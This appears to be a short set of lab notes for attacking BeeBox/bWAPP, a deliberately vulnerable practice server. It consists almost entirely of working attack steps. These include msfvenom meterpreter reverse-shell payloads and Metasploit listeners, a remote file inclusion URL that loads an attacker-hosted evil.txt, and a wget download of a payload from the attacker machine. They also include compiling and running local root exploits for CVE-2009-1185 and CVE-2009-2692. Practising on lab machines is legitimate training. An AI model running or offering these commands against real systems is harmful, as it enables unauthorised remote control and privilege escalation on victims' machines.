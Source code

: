 ### BeeBox

"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole  
use exploit/multi/handler   
set LPORT 4446    
set LHOST 192.168.112.4   
set PAYLOAD php/meterpreter_reverse_tcp   
run 

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go  
**Change to:**  
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'    
id  
whoami  

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2   
msfconsole  
use exploit/multi/handler 
set LHOST 192.168.112.4 
set LPORT 5000  
set PAYLOAD linux/x86/meterpreter/reverse_tcp 

On BeeBox:  
wget http://192.168.112.4/run -o /tmp/run    
gcc cve-2009-1185.c -o /tmp/privescalation  
chmod +x /tmp/privescalation  
cd /tmp    
ps aux | grep udev      
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)  

**Easy Way**  
tar -xvf cve-2009-2692.tar  
cd cve-2009-2692  
sh cve-2009-2692.sh 
